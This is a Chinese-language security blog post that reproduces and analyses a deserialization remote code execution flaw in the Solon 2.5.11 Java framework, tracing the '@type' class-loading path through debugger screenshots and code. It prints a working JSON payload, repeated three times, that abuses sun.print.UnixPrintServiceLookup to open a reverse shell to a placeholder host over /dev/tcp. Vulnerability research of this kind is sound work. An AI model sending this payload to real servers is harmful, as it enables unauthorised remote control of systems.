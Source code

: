 # Solonv2.5.11-RCE

  
  
&lt;!--more--&gt;  
## 0x00 环境搭建  
https://solon.noear.org/start/build.do?artifact=helloworld_jdk8&amp;project=maven&amp;javaVer=1.8  
pom.xml  
```xml  
&lt;groupId&gt;org.noear&lt;/groupId&gt;    
&lt;artifactId&gt;solon-parent&lt;/artifactId&gt;    
&lt;version&gt;2.5.11&lt;/version&gt;  
```  
## 0x01 漏洞复现  
漏洞触发条件很简单，只要有接收参数的任意路由。  
但必须是 Linux&amp;&amp;jdk 环境下启动  
POC  
```json  
{  
&#34;name&#34;: {    
	&#34;@type&#34;: &#34;sun.print.UnixPrintServiceLookup&#34;,   
	&#34;lpcFirstCom&#34;:[   
		&#34;;sh -i &gt;&amp; /dev/tcp/xxx.xxx.xxx.xxx/xxxx 0&gt;&amp;1;&#34;,  
		&#34;;sh -i &gt;&amp; /dev/tcp/xxx.xxx.xxx.xxx/xxxx 0&gt;&amp;1;&#34;  
		]  
	}  
}  
```  
## 0x02 漏洞分析  
solon 是如何处理 json 数据的参数绑定的呢？  
直接在这里下个断点看调用栈  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171549021.png)
在`org.noear.solon.core.handle.ActionExecuteHandlerDefault#executeHandle`这里调用执行了`mWrap.invokeByAspect(obj, args.toArray());`调用了自定义的`com.example.demo.DemoController#hello`方法，而在上面`buildArgs(ctx, obj, mWrap);`用来进行参数绑定  
跟进这个参数绑定的方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171552806.png)
`buildArgs`中会对接收到的数据进行`changeBody`处理  
当传入 JSON 数据时就会做一个 JSON 解析，得到一个 ONode 对象  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171553604.png)
回到`buildArgs`则是对 hello 路由方法的参数取得类型，并根据类型做相应的处理后续来到`this.changeValue`这里  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171555181.png)
跟入其中，有一些判断，检验是否有 hello 方法对应的参数  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171556793.png)
继续跟进来到`toObject`方法中，一直跟进到`org.noear.snack.to.ObjectToer#analyse`方法，这里会对ONode 对象做一些特殊处理。  
这里有两个点，传入的 JSON 是`{&#34;name&#34;:&#34;world&#34;}`，所以正常流畅会走到字符串处理，`clz`的值为`java.lang.String`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171602637.png)
假如我们传入一个 Object 呢？  
`{&#34;name&#34;:{}}`  
会直接进入到`clz = getTypeByNode(ctx, o, clz);`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171605652.png)
跟进这里，在`org.noear.snack.to.ObjectToer#getTypeByNode`方法中，类型为`Object`时，会取其中键值为`@type`的值来进行一个类的加载  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171609106.png)
这里赋值一个类  
`{&#34;name&#34;:{&#34;@type&#34;:&#34;sun.print.UnixPrintServiceLookup&#34;}}`  
成功进行了类加载  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171615874.png)
继续看怎么处理这个 clz 的  
在一个`switch case`之后，会来到一个 Object 的处理位置，直接来到最后`analyseBean(ctx, o, rst, clz, type, genericInfo);`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171617317.png)
跟进查看，发现对上面获取到的`clz`进行了实例化  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171618673.png)
后续判断了传入的对象是否有对应属性的值，如果存在则会进行一个赋值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171620811.png)
赋值这里关键是看目标类中有哪些属性，不同于 fastjson 这里赋值并不会调用对象的`setter`或`getter`方法  
这里目标类的获取首先是从缓存中获取，  
```java  
ClassWrap clzWrap = ClassWrap.get(clz);  
```  
跟进这里，在构造函数中会调用`scanAllFields(clz, map::containsKey, map::put);`对目标类进行一个扫描  
```java  
private void scanAllFields(Class&lt;?&gt; clz, Predicate&lt;String&gt; checker, BiConsumer&lt;String, FieldWrap&gt; consumer) {    
    if (clz == null) {    
        return;    
    }    
    
    for (Field f : clz.getDeclaredFields()) {    
        int mod = f.getModifiers();    
    
        if (!Modifier.isStatic(mod)    
                &amp;&amp; !Modifier.isTransient(mod)) {    
    
            if(_isMemberClass &amp;&amp; f.getName().equals(&#34;this$0&#34;)){    
                continue;    
            }    
    
            if (checker.test(f.getName()) == false) {    
                _recordable &amp;= Modifier.isFinal(mod);    
                consumer.accept(f.getName(), new FieldWrap(clz, f, Modifier.isFinal(mod)));    
            }    
        }    
    }    
    
    Class&lt;?&gt; sup = clz.getSuperclass();    
    if (sup != Object.class) {    
        scanAllFields(sup, checker, consumer);    
    }    
}  
```  
最终获取到的 Field 是目标类中的非静态变量  
继续看，是怎么对我们所创建的对象进行赋值的  
```java  
for (FieldWrap f : clzWrap.fieldAllWraps()) {    
    if (f.isDeserialize() == false) {    
        continue;    
    }    
    String fieldK = f.getName();    
    
    if (excNames != null &amp;&amp; excNames.contains(fieldK)) {    
        continue;    
    }    
    
    
    if (o.contains(fieldK)) {    
        Class fieldT = f.type;    
        Type fieldGt = f.genericType;    
    
        if (f.readonly) {    
            analyseBeanOfValue(fieldK, fieldT, fieldGt, ctx, o, f.getValue(rst), genericInfo);    
        } else {    
    
    
            Object val = analyseBeanOfValue(fieldK, fieldT, fieldGt, ctx, o, f.getValue(rst), genericInfo);    
    
            if (val == null) {    
                //null string 是否以 空字符处理    
                if (ctx.options.hasFeature(Feature.StringFieldInitEmpty) &amp;&amp; f.type == String.class) {    
                    val = &#34;&#34;;    
                }    
            }    
    
            f.setValue(rst, val, disSetter);    
        }    
    }    
}  
```  
给一个值，继续跟入  
```json  
{  
&#34;name&#34;: {    
	&#34;@type&#34;: &#34;sun.print.UnixPrintServiceLookup&#34;,   
	&#34;lpcFirstCom&#34;:[   
		&#34;;sh -i &gt;&amp; /dev/tcp/xxx.xxx.xxx.xxx/xxxx 0&gt;&amp;1;&#34;,  
		&#34;;sh -i &gt;&amp; /dev/tcp/xxx.xxx.xxx.xxx/xxxx 0&gt;&amp;1;&#34;  
		]  
	}  
}  
```  
进入`f.setValue(rst,val,disSetter)`，这里处理逻辑也很简单，有对应的`setter`则用对应的`setter`进行赋值，没有则使用反射进行赋值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171637153.png)
这里并不能用`fastjson`的`payload`直接打，因为赋值的前提条件是目标对象必须要有对应的字段才可以。  
所以这里选择的是`sun.print.UnixPrintServiceLookup`这个类，最后RCE的地方  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202412171641615.png)
[sun.print.UnixPrintServiceLookup利用](https://xz.aliyun.com/t/12818)  
所以最终 payload 就是  
```json  
{  
&#34;name&#34;: {    
	&#34;@type&#34;: &#34;sun.print.UnixPrintServiceLookup&#34;,   
	&#34;lpcFirstCom&#34;:[   
		&#34;;sh -i &gt;&amp; /dev/tcp/xxx.xxx.xxx.xxx/xxxx 0&gt;&amp;1;&#34;,  
		&#34;;sh -i &gt;&amp; /dev/tcp/xxx.xxx.xxx.xxx/xxxx 0&gt;&amp;1;&#34;  
		]  
	}  
}  
```  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/solonv2.5.11-rce/  

